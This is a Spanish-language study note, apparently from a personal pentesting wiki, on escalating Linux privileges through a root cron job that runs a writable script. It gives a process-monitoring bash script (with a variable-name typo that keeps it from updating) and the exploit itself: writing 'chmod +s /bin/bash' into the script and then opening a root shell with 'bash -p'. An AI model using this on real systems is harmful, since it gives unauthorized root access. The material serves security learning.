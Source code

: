 Una tarea [[Archivos#Cron|Cron]] se encargar de ejecutar ciertos algoritmos cada cierto tiempo.

Primero vamos agregar una nueva tarea cron y inicar el servicio, las tareas se ubican en ` /etc/cron.d ` y deben de contener una [[Archivos#Estructura de tiempos|Estrucutra]].

``` bash
#Estructura por defecto(1 min)
* * * * * root /home/s4tisfacti0n/file.sh
```

Ah este punto la tarea cron esta lista, creamos el archivo y le damos permisos *x* y *w*.

**Explotacion**
Como podemos identificar una tarea cron? con `ps -eo command` podemos vizualizar los comandos que se estan ejecutando en tiempo real.
Para esto realizaremos un pequeño script.

``` bash
 1 #!/bin/bash
 2
 3 old_process=$(ps -eo command)
 4
 5
 6 while true; do
 7     new_process=$(ps -eo command)
 8     diff <(echo "$old_process") <(echo "$new_process") | grep  "[\>\<]" | grep -v "kworker"
 9     ol_process=$new_process
10 done
```

Una vez que ejecutemos nuestro script podemos vizualizar la tarea cron que hemos creado, ahora a explotar esta *recordar que el file.sh ejecutado tiene permisos e escritura asi que lo podemos modificar*.

Como la tarea cron se esta ejecutando como root lo que vamos hacer es asignar permisos *suid* a la `/bin/bash`.
``` bash
 1 #!/bin/bash
 2
 3 chmod +s /bin/bash
```

Ahora con un usuario no privilegiado abriremos una bash.

	bash -p
-p *Para forzar los permisos que tiene*


